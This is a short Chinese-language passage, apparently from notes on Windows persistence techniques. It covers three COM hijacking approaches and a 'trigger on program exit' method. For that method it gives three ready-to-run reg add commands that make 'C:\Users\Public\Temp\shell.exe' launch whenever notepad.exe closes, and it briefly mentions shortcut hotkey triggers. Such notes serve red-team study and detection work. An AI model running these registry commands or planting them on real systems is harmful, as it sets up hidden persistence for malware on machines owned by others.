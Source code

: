 COM调用加载过程很直观的可以看出理论上可行的3种劫持方案：

- HKCR中有，而HKCU中没有，只需要在HKCU中注册即可劫持HKCR中的COM服务。
- 修改掉`LocalServer32`或`InprocServer32`的键值。
- 替换掉`LocalServer32`或`InprocServer32`的键值中的文件。

其实相对来说可以看到，COM劫持其实可以理解为比CLR劫持少了一步添加注册表项的操作，而是直接修改其他组件的内容

# 关闭程序触发

关闭notepad.exe进程时执行对应exe 。
为此，我们需要在 cmd 中执行 3 个命令：

```js
reg add "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\notepad.exe" /v GlobalFlag /t REG_DWORD /d 512
reg add "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\SilentProcessExit\notepad.exe" /v ReportingMode /t REG_DWORD /d 1
reg add "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\SilentProcessExit\notepad.exe" /v MonitorProcess /d "C:\Users\Public\Temp\shell.exe"
```

# link文件快捷键

如果在用户桌面上放置了带有激活键的快捷方式，则每次通过调用指定的组合键来执行该快捷方式。

![image-20240410103155203](images/23.png)